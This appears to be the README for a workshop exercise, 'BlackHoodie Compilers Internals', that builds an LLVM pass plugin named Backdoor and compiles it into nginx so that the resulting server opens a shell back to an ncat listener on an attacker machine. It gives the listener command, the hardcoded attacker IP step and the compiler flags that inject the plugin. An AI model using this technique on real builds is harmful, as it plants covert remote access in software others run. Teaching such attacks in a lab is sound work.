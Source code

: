 # BlackHoodie Compilers Internals

Project builds with LLVM v21 and cmake 3.28.3 (minimum)
Building LLVM from scratch: https://llvm.org/docs/GettingStarted.html#getting-the-source-code-and-building-llvm


### Exercise Flow

  Attacker machine:
  sudo apt update
  sudo apt install ncat
  ncat -lvp 8080

  Target machine:
  In examples/inject folder:
  Edit IP address in Backdoor.cpp to match attacker IP addres, yes it is hardcoded
  mkdir build
  cd build 
  cmake -S ../ -B .; make
  Find libBackdoor.so in lib directory!

  sudo cp ../inject/build/lib/libBackdoor.so /usr/local/lib

  Change into examples/nginx folder
  run:
  ./auto/configure --with-cc=clang --with-cc-opt=-fpass-plugin=/usr/local/lib/libBackdoor.so --prefix=/home/ubuntu/examples/nginx/build

  make
  make install 
  locate nginx binary 
  sudo nginx

  Enjoy shell on attacker machine!
